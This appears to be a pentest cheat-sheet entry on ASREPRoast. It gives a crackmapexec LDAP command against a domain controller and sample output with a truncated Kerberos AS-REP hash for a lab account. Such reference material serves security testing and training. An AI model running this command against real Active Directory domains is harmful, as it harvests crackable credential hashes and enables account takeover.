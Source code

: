 # 🟠 ASREPRoast

<pre data-overflow="wrap"><code><strong>crackmapexec ldap 10.100.2.110 -u rfs -p &#x3C;passd> --kdcHost &#x3C;Host>  --asreproast output.txt
</strong></code></pre>

{% code overflow="wrap" %}
```
LDAP        10.100.2.110       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5

```
{% endcode %}
